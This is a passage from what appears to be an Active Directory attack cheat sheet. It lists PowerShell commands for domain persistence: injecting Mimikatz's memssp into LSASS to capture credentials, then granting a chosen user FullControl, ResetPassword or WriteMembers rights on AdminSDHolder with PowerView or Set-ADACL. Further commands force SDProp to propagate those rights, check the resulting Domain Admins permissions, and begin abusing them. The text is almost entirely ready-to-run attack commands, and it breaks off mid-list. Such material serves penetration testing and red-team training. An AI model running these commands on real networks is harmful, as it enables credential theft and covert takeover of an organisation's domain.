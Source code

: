 - Use Mimikatz to inject into LSASS (not stable with Server 2016)

```
PS C:\> Invoke-Mimikatz -Command '"misc::memssp"'
```

### AdminSDHolder (Persistence using ACLs)

- Add FullControl permissions for a user to the AdminSDHolder using PowerView as Domain Admin

```
PS C:\> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <username> -Rights All -Verbose
```

- Add ResetPassword permissions for a user to the AdminSDHolder using PowerView as Domain Admin

```
PS C:\> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <username> -Rights ResetPassword -Verbose
```

- Add WriteMembers permissions for a user to the AdminSDHolder using PowerView as Domain Admin

```
PS C:\> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <username> -Rights WriteMembers -Verbose
```

- Add FullControl permissions for a user to the AdminSDHolder using ActiveDirectory Module and Set-ADACL as Domain Admin

```
PS C:\> Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=test,DC=domain,DC=local' -Principal <username> -Verbose
```

- Run SDProp manually using Invoke-SDPropagator.ps1

```
PS C:\> Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

PS C:\> Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose        # For pre-Server 2008 machines
```

- Check the Domain Admins permission using PowerView as normal user

```
PS C:\> Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match '<username>'}
```

- Check the Domain Admins permission using ActiveDirectory Module as normal user

```
PS C:\> (Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=test,DC=domain,DC=local').Access | ?{$_.IdentityReference -match '<username>'}
```

- Abuse FullControl by adding a user to the Domain Admins group using PowerView_dev
